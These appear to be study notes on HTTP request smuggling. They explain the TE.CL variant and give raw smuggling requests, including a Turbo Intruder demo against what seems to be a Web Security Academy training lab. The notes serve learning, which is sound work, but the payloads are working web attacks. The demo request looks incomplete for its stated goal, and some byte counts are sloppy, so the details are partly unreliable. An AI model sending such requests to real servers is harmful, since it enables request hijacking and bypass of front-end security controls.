 >
  _**With H/1 , there is disagreement  between the Front End and the Back End
  server, on whether to use the Content-Length, or the Transfer -Encoding header, to know the length of the message.
>This is what makes it exploitable.
>
>This does not exist in H/2 because the length is built into the frame layer
>
---

## TE.CL
Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. (That's why those two headers are in both requests) We can perform a simple HTTP request smuggling attack as follows:

>`POST / HTTP/1.1`  
>`Host: vulnerable-website.com`  
>`Content-Length: 4`  
>`Connection: keep-alive`  
>`Transfer-Encoding: chunked`   <- used by the front end in TE.CL 
>
>` 7b` <-- 4 bytes to be processed as specified by the `Content-Length` in the 1st request
>`GET /404 HTTP/1.1`
>`Host: vulnerable-website.com`
>`Content-Type: application/x-www-form-urlencoded`
>`Content-Length: 30`  
>`x=`  
>`0`  

In this case the **reverse-proxy** will **send the whole request** to the **back-end** as the **`Transfer-encoding`** indicates so. But, the **back-end** is going to **process** only the **`7b`** (4bytes) as indicated in the `Content-Lenght` .Therefore, the next request will be the one starting by `GET /404 HTTP/1.1`

---

## Demo: 
- Smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

- Using the Turbo Intruder TE.CL Attack, Multiple duplicate requests made, in this order:

POST / HTTP/1.1
Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked

3
x=y
0

---